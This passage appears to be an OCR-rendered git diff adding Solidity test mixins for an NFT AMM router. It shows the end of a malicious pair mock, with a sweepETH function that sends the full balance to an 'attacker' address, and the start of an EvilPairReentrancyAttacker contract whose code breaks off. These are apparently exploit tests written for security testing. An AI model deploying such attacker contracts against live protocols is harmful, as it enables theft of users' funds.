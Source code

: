 ```diff
+        return ethAmount;
+    }
+
+    function sweepETH() public {
+        (bool success, ) = attacker.call{value: address(this).balance}("");
+        require(success, "eth sweep success");
+    }
+
+    function spotPrice() external view virtual returns (uint256) {
+        return expectedSpotPrice;
+    }
+
+    function delta() external view virtual returns (uint256) {
+        return expectedDelta;
+    }
+
+    function fee() external view virtual returns (uint256) {
+        return 0;
+    }
+
+    function nft() external view virtual returns (address) {
+        return nftAddress;
+    }
+
+    function calculateRoyaltiesView(uint256 assetId, uint256 saleAmount)
+        public
+        view
+        returns (address payable[] memory royaltyRecipients, uint256[] memory royaltyAmounts, uint256 royaltyTotal)
+    {}
+}
\ No newline at end of file
diff --git a/src/test/mixins/EvilPairReentrancyAttacker.sol b/src/test/mixins/EvilPairReentrancyAttacker.sol
new file mode 100644
index 0000000..019019f
--- /dev/null
+++ b/src/test/mixins/EvilPairReentrancyAttacker.sol
@@ -0,0 +1,79 @@
+// SPDX-License-Identifier: AGPL-3.0
+pragma solidity ^0.8.0;
+
+import {LSSVMPair} from "../../LSSVMPair.sol";
+import {VeryFastRouter} from "../../VeryFastRouter.sol";
+
+import {console} from "forge-std/Test.sol";
+
+contract EvilPairReentrancyAttacker {
+    VeryFastRouter immutable internal router;
+    uint256 immutable internal expectedSpotPrice;
+    address immutable internal PWNER;
+    address immutable internal evilPair;
+    uint256 counter;
+
+    constructor(VeryFastRouter _router, uint256 _expectedSpotPrice, address _pwner, address _evilPair) {
+        router = _router;
+        expectedSpotPrice = _expectedSpotPrice;
+        PWNER = _pwner;
+        evilPair = _evilPair;
+    }
+
+    fallback() external payable {
```